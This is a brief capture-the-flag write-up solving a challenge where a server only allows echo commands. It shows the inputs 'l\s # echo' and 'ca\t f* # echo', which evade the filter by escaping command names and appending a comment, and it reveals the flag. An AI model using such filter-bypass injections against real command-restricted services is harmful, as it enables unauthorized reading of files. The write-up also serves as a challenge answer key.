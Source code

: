 # Really Only Echo

Solved by: @Cookies to SELL

- Category: misc
- Description: Hey, I have made a terminal that only uses echo, can you find the flag?
- Challenge File: server.py

### Solutions:

`#` is not blacklisted

![out](out.png)

```
Please input command: l\s # echo
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

To cat the flag out:
```
Please input command: ca\t f* # echo
pctf{echo_is_such_a_versatile_command}
```

**Flag:** `pctf{echo_is_such_a_versatile_command}`

